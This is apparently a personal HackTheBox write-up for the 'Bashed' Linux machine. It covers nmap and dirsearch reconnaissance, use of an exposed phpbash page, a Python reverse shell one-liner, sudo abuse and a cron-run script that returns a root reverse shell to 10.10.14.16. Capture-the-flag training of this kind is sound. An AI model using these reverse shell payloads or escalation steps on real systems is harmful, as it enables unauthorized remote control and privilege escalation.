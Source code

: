 ```yaml
---
title: Bashed
tags:
  - HackTheBox
  - Easy
  - Linux
  - Web
  - Cron-Job
date: 2024-09-01T00:00:00Z
---
```

![](Pasted%20image%2020241101181907.png)

## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.10.68 bashed.htb" | sudo tee -a /etc/hosts
```

Then, I performed a Nmap scan:

```shell
nmap -sC -T4 -p- bashed.htb > sC.txt

[redacted]
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Arrexel's Development Site
```

So I took a look at the website:

![](Pasted%20image%2020241101182920.png)

It talks about a php script that creates a bash reverse shell from a php script. I took a look at the unique entry `phpbash`:

![](Pasted%20image%2020241101183046.png)

So as the author says that he used this script in this website, I decided to enumerate with [dirsearch 📁](/notes/tools/dirsearch.md) to try to find that script and use it:

```shell
dirsearch -e * -u http://bashed.htb -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt

[redacted]
[18:35:57] 301 -  309B  - /images  ->  http://bashed.htb/images/            
[18:35:59] 301 -  310B  - /uploads  ->  http://bashed.htb/uploads/          
[18:36:00] 301 -  306B  - /php  ->  http://bashed.htb/php/                  
[18:36:01] 301 -  306B  - /css  ->  http://bashed.htb/css/                  
[18:36:02] 301 -  306B  - /dev  ->  http://bashed.htb/dev/                  
[18:36:03] 301 -  305B  - /js  ->  http://bashed.htb/js/                    
[18:36:11] 301 -  308B  - /fonts  ->  http://bashed.htb/fonts/
```

So I took a look at the `/dev` subdirectory and found those scripts:

![](Pasted%20image%2020241101183906.png)

![](Pasted%20image%2020241101184013.png)

## Exploitation

I can execute commands, so I executed a python reverse shell (bash one didn't work):

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP_ATTACK",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

> I got a shell!

![](Pasted%20image%2020241101185037.png)

So I checked if I could read the user flag (success):

![](Pasted%20image%2020241101185124.png)

## Privilege escalation

If we run `sudo -l`:

![](Pasted%20image%2020241101190011.png)

So the user `www-data` can run commands as `scriptmanager` without password. So we can perform a `sudo -u scriptmanager bash -i` to become `scriptmanager`.

Now, after some enumeration I found the `/scripts` directory, which contained two files:

![](Pasted%20image%2020241101190509.png)

It seems that a privileged user is running the `test.py` each some time. So I created a `.shell.py`:

```shell
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.16",888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

> Got a reverse shell as root :D

![](Pasted%20image%2020241101192000.png)

==Machine pwned!==

